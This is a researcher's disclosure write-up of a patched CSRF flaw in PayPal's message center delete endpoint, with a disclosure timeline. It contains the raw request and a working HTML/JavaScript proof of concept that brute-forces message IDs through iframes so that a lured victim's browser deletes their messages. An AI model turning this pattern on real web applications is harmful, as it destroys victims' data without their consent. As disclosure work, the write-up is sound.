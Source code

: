 ```yaml
---
layout: post
title:  "I could’ve deleted all SMC messages. using Brute Force Technique – PayPal"
---
```


While playing around with the SMC platform at paypal.com, I came across an interesting endpoint that doesn’t include a CSRF token within its request when you delete a message. Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help from social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, in this case, a CSRF attack can force the user to delete all of his messages without the victim’s notice.

### PayPal Message Center [SMC]:

PayPal has created a Message Center for its customers like most financial institutions and eBay provides. The Message Center gives PayPal the ability to communicate with you within the framework of a new mailbox inside your PayPal account. It also provides you with a way to validate customer service emails that you may consider suspicious. This way, you can trust that the communications you receive are from PayPal itself. How does it work?

Emails from PayPal will be put into the Message Center. A notification will be sent to let you know that you have a message.

1. Open https://www.paypal.com/ma/selfhelp/contact/email/t_s
2. At the middle, select which issue/topic do you want to ask about.
3. Click “SEND”, then wait for them to reply with a solution/information

### The Interesting HTTP-Request:

```
GET /smc/delete-msg/?message_id=38223655 HTTP/1.1
Host: www.paypal.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://www.paypal.com/smc/customer
Cookie: **********************************************************
Connection: close
```

Apparently, there’s no CSRF token right there but there’s a message_id which definitely could replace the CSRFtoken on its job, due to its difficulty to be guessed.

## The Attack scenario/Proof of Concept:

The only way that could let us find the right message_id is to use a dynamic functionality written by JavaScript to brute force the message_id through the URL.

```html
<html>
<body>
<div id="elementID"></div>
<script>
   for (var i=38223650; i<=38223800;i++) {
    var url = "https://www.paypal.com/smc/delete-msg/?message_id=";
      url = url + String(i);
      frame = document.createElement('iframe');
      frame.setAttribute('src', url);
      frame.setAttribute('width', '30px');
      frame.setAttribute('height', '50px');
      (document.getElementById('elementID')).appendChild(frame);
   }
</script>
</body>
</html>
```

Now, we just have to save this file as an HTML file and upload it to our server in order to send it to the victim. When the victim accesses this page, it will create a few new iframes with the SRC attribute set to:


```
https://www.paypal.com/smc/delete-msg/?message_id=38223650
https://www.paypal.com/smc/delete-msg/?message_id=38223651
https://www.paypal.com/smc/delete-msg/?message_id=38223652
https://www.paypal.com/smc/delete-msg/?message_id=38223653
https://www.paypal.com/smc/delete-msg/?message_id=38223654
https://www.paypal.com/smc/delete-msg/?message_id=38223655
https://www.paypal.com/smc/delete-msg/?message_id=38223656
```

So, what’s happening here? When it creates an iframe of https://www.paypal.com/smc/delete-msg/?message_id= it’s going to use the number 38223650 as the value of the message_id parameter and submit the URL. Then it’s going to keep incrementing the value of the message_id by one more digit +1 until it covers all the messages inside the inbox/sent folder. I could also make this script start from 0 to 9999999.. which means there’s a high chance that the script will cover all valid message_id inside the victim’s account.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image001.png)

The idea behind creating a new iframe is preferable because it takes less memory to process so chances of a crash are also less. And if it DOES the victim won’t control the browser until the script is done. Otherwise, the IFrames keep processing while the victim is waiting for the browser to be stabilized.


## How it got FIXED:

The PayPal security team resolved this issue using the most popular implementation to prevent the CSRF vulnerability, which is a secret/random token that is associated with a particular user called Anti-CSRF, then included it within every sensitive request that requires a server-side verification before authorizing any sensitive action.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image002.png)

### Timeline:

- 15th of January 2018 – Bug reported.
- 24th of January 2018 – First response from PayPal, More Information Required –Researcher.
- 23rd of March 2018 – The vulnerability is fixed now.
